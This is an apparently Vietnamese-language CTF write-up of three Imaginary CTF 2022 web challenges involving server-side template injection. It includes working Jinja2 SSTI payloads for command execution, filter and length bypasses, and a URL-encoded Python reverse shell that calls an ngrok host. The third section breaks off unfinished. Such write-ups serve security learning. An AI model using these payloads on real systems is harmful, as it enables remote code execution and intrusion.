 ```yaml
---
title: "Imaginary CTF 2022"
author: "mtiennnnn"
tags: write-up web
---
```

{% raw %}
# SSTI Golf

Đề bài cho thẳng source có lỗi SSTI như sau

```python
#!/usr/bin/env python3

from flask import Flask, render_template_string, request, Response

app = Flask(__name__)

@app.route('/')
def index():
    return Response(open(__file__).read(), mimetype='text/plain')

@app.route('/ssti')
def ssti():
    query = request.args['query'] if 'query' in request.args else '...'
    if len(query) > 48:
        return "Too long!"
    return render_template_string(query)

app.run('0.0.0.0', 1337)
```

Check param `query` tại `/ssti` và giới hạn độ dài là 48. Bài này thì easy rồi nên mình cho thẳng payload mình hay dùng.

```python
{{lipsum.__globals__.os.popen('nl *').read()}}
```

![image](https://user-images.githubusercontent.com/75429369/179644681-16ad9d92-6c4c-4e2f-896a-46d4e4f950a8.png)

# minigolf

Một bài SSTI khác nhưng lần này khó hơn ở chỗ tác giả đã filter thêm một số ký tự `{{` `[` `_`

```python
from flask import Flask, render_template_string, request, Response
import html

app = Flask(__name__)

blacklist = ["{{", "}}", "[", "]", "_"]

@app.route('/', methods=['GET'])
def home():
  print(request.args)
  if "txt" in request.args.keys():
    txt = html.escape(request.args["txt"])
    if any([n in txt for n in blacklist]):
      return "Not allowed."
    if len(txt) <= 69:
      return render_template_string(txt)
    else:
      return "Too long."
  return Response(open(__file__).read(), mimetype='text/plain')

app.run('0.0.0.0', 1337)
```

Ban đầu mình cũng cố gắng chắp vá payload bằng những cách thường dùng như dùng `attr|` `dict` nhưng độ dài là rất ít (<= 69).

Sau một hồi thì mình có tham khảo được trang [này](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/)

Đại khái ý tưởng ở đây sẽ là chèn một chuỗi với độ dài tuỳ thích vào một biến nào đó trong file `config`, sau đó ta sẽ `popen` tới nó để sử dụng. Mình test thử nhé. Đầu tiên ta sẽ lưu chuỗi như ý muốn vào `config.a`

Ban đầu mình thử với payload sau nhưng không được

```
?txt={%set t=config.update(a=request.args('a')))%}&a=this is a test mtiennnnn
```

Mình không hiểu tại sao payload này lại không work :) (có ai biết chỉ mình với nha), sau đó mình cho hẳn cái `request.args` thành một biến khác thì lại work.

```
?txt={%set o=request.args%}{%set b=config.update(a=o.t)%}&t=this is a test mtiennnnn
```

Đọc thử `config.a` thì đã thấy chuỗi mình nhập

![image](https://user-images.githubusercontent.com/75429369/179645383-e56b8dfc-e37a-4b05-a2f1-d91fdebfe75f.png)

Vậy là đạt được mục đích rồi, giờ chỉ cần set up reverse shell nữa là xong

```
?txt={%set%20o=request.args%}{%set%20b=config.update(a=o.t)%}&t=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28"0.tcp.ap.ngrok.io"%2C14474%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B"%2Fbin%2Fsh"%2C"-i"%5D%29%3B%27
```

Check lại `config.a` lần nữa cho chắc

![image](https://user-images.githubusercontent.com/75429369/179646144-de31d54a-441f-4893-baec-304beed007ee.png)

Oke popen nó là ta có thể rce được rồi

```
?txt={%set o=request.args%}{%set b=(lipsum|attr(o.t)).os.popen(config.a)%}&t=__globals__
```

![image](https://user-images.githubusercontent.com/75429369/179646491-6aa503cd-b5ea-49ab-b92c-572f3a32baab.png)

_Note: bài này mình cứ ghi thiếu ngoặc với thiếu kí tự gì đấy nên cứ 500 miết =))_

# 1337

```javascript
import mojo from "@mojojs/core";
import Path from "@mojojs/path";

const toLeet = {
  A: 4,
  E: 3,
  G: 6,
  I: 1,
  S: 5,
  T: 7,
  O: 0,
};

const fromLeet = Object.fromEntries(
  Object.entries(toLeet).map(([k, v]) => [v, k])
);

const layout = `<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>1337</title>
    <link rel="stylesheet" href="static/style.css">
</head>
<body>
    <main>
        <%== ctx.content.main %>
    </main>
    <canvas width="500" height="200" id="canv" />
    <script src="static/matrix.js"></script>
</body>
</html>`;

const indexTemplate = `
<h1>C0NV3R7 70/FR0M L337</h1>
<form id="leetform" action="/">
    <input type="text" id="text" name="text" placeholder="Your text here">
    <div class="switch-field">
        <input type="radio" id="dir-to" name="dir" value="to" checked="checked">
        <label for="dir-to">TO</label>
        <input type="radio" id="dir-from" name="dir" value="from">
        <label for="dir-from">FROM</label>
    </div>
    <input type="submit" value="SUBMIT">
</form>
<div id="links">
  <a href="/source">/source</a>
  <a href="/docker">/docker</a>
</div>
`;

const app = mojo();

const leetify = (text, dir) => {
  const charBlocked = ["'", "`", '"'];
  const charMap = dir === "from" ? fromLeet : toLeet;

  const processed = Array.from(text)
    .map((c) => {
      if (c.toUpperCase() in charMap) {
        return charMap[c.toUpperCase()];
      }

      if (charBlocked.includes(c)) {
        return "";
      }

      return c;
    })
    .join("");

  return `<h1>${processed}</h1><a href="/">â†BACK</a>`;
};

app.get("/", async (ctx) => {
  const params = await ctx.params();
  if (params.has("text")) {
    return ctx.render({
      inline: leetify(params.get("text"), params.get("dir")),
      inlineLayout: layout,
    });
  }
  ctx.render({ inline: indexTemplate, inlineLayout: layout });
});

app.get("/source", async (ctx) => {
  const readable = new Path("index.js").createReadStream();
  ctx.res.set("Content-Type", "text/plain");
  await ctx.res.send(readable);
});

app.get("/docker", async (ctx) => {
  const readable = new Path("Dockerfile").createReadStream();
  ctx.res.set("Content-Type", "text/plain");
  await ctx.res.send(readable);
});

app.start();
```

Tiếp tục là một bài SSTI (được dịp ôn SSTI gớm), ở bài này nó sẽ convert một số ký tự từ chữ sang số và ngược lại. (btw, payload test ssti `<%== 7*7%>`).

Ngoài convert những kí tự như trên thì ở hàm `leetify`, tác giả còn chặn những kí tự như `'` `"` ```
Tiếp cận bài này ban đầu của mình là mình đi theo hướng URLencode nhưng không hợp lí vì lấy ví dụ `'` là %27 thì số 7 đã bị block.
 an com ti viet tiepa










